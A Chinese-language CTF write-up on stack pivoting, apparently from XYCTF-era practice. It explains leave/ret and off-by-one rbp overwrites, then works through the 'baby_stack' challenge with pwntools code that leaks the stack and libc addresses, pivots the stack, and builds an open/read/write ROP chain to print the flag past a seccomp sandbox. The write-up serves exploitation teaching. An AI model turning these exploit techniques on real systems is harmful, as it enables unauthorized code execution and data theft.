

# 栈迁移

本月打 XYCTF 和 中海洋校赛 的时候都遇到了栈迁移，就打算整理一下。

## 原理

指令等价：

- leave 
    - mov rsp,rbp 
    - pop rbp
- ret
    - pop rip

## off by one

即通过覆盖 rbp 寄存器的最低1位来使得 rbp 指向的位置在 0-255 字节移动

特点：

- 只需要 1 字节的溢出
- 不需要完全知道你payload的位置
 
## leave ret

通过覆盖原有 rbp 和使用 leave ret 覆盖原有返回地址来迁移

特点：

- 溢出字节只够覆盖rbp和返回地址
- 需要精心布置栈上的内容

以中国海洋大学的 baby_stack 为例：

给了附件和一个libc文件

~~~plaintext
[*] 'baby_stack'                                                                         
    Arch:     amd64-64-little                                                                             
    RELRO:    Partial RELRO                                                                                       
    Stack:    No canary found                                                                                       
    NX:       NX enabled                                                                                     
    PIE:      No PIE (0x3fc000)
~~~

checksec 发现只开了 NX 保护，使用 IDA Pro 反编译程序

~~~c
ssize_t func()
{
  char buf[320]; // [rsp+0h] [rbp-140h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts("please enter your content:");
  read(0, buf, 0x150uLL);
  printf("%s", buf);
  puts("please enter your content again:");
  return read(0, buf, 0x150uLL);
}
~~~

func 中存在缓冲区溢出漏洞，但给的大小 0x150 - 0x140 = 0x10 只能够覆盖 rbp 和 返回地址，同时发现程序开了沙箱

~~~

 line  CODE  JT   JF      K                                                                                             
=================================                                                               
 0000: 0x20 0x00 0x00 0x00000004  A = arch                                                                                  
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011                                                           
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number                                                                            
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005                                                             
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011                                                            
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010                                                                  
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010                                                                 
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010                                                                  
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010                                                                  
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011                                                            
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW                                                                              
 0011: 0x06 0x00 0x00 0x00000000  return KILL
~~~

程序给的溢出空间过小，所以只能通过泄露栈上地址来实现栈迁移从而构造 ROP，且主程序方面不存在可以使用的 ROPgadget，我们还需要泄露 libc 基址来使用 libc 内的 ROPgadget。恰好 func 中给了两次 read ，一次用来泄露，一次用以构造栈迁移。但我们需要两次泄露，也就是需要进入两次 func。所以思路就是：

1. 先泄露 old rbp 
2. 使用 old rbp 栈迁移使得程序再次进入 func
3. 泄露 libc 基地址
4. 构造 orw ROP

我们一步一步来讲

泄露 old rbp，我们只需要覆盖前 0x140 字节并让 printf 输出即可

exp1
~~~python
payload1 = b'a'*0x140
p.sendafter(b'content:\n',payload1)
p.recvuntil(b'a'*0x140)
old_rbp = u64(p.recv(6).ljust(8,b'\x00'))
print('old_rbp:',hex(old_rbp))
~~~

然后通过 old rbp 来实现栈迁移，我们需要找到：

- payload 和 old_rbp 的 offset
- leave ret 的地址

调试发现

rbp 指向的 old rbp 位置与输入的 payload 的 offset 为 0x150

exp2:
~~~py
payload2 = p64(old_rbp) + p64(func_address) + b'a'*0x130 + p64(old_rbp-0x150) + p64(leave_ret)
p.sendafter('again:\n',payload2)
~~~

详细来讲一下这个 payload 产生的栈迁移的过程，我们都知道栈的结构为：

当我将上面的 payload 写入后，栈就变成这样

则当你第一次退栈后，栈就会改变为：

此时 func 的起始地址成为返回地址，于是在再次退栈后，rip 就会指向 func 的起始地址，从而达到再次进入func且进入一块新栈区的效果。

此时我们可以进行第三步，泄露 libc 基址，查看发现新栈区的 rbp - 0xf0 处有libc上的地址

exp3：

~~~py
payload3 = b'a'*(0x140-0xf0)
p.sendafter(b"content:\n",payload3)
p.recvuntil(b'a'*(0x140-0xf0))
libc_base = u64(p.recv(6).ljust(8,b'\x00')) - 0x558A9
print("libc_base:",hex(libc_base)) 
~~~

最后构造栈迁移 + orw ROP链，和第二步类似但我们需要构造的栈内容如下：

1. 构造open("./flag",0,0) 读取 flag 内容
2. 构造read(3,0xFF,address) 将 flag 内容放入可写可读地址，我们这里直接选择 payload 的起始地址，3指的是 flag 的文件描述符
3. 构造write(1,0xFF,address) 将指定地址的内容输出到标准输出流
4. rbp 栈迁移到 payload 开头

exp4：

~~~python
ret = 0x937 + libc_base
pop_rdi = 0x21112 + libc_base
pop_rsi = 0x202f8 + libc_base
pop_rdx = 0x1b92  + libc_base
pop_rax = 0x3a738 + libc_base
syscall = 0x26bf  + libc_base
offset = 0x288
mov_rdi_rax = 0x400A8D
open_address = libc.sym['open'] + libc_base
read_address = libc.sym['read'] + libc_base
write_address = libc.sym['write'] + libc_base

payload4 = b'./flag\x00\x00' + p64(pop_rdi) + p64(old_rbp-offset) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(open_address)
payload4 += p64(pop_rdi) + p64(3) + p64(pop_rdx) + p64(0xFF) + p64(pop_rsi) + p64(old_rbp-offset) + p64(read_address)
payload4 += p64(pop_rdi) + p64(1) + p64(pop_rdx) + p64(0xFF) + p64(pop_rsi) + p64(old_rbp-offset) + p64(write_address)
payload4 += b'a'*0x90 + p64(old_rbp-offset) + p64(leave_ret)

p.send(payload4)

p.interactive()
~~~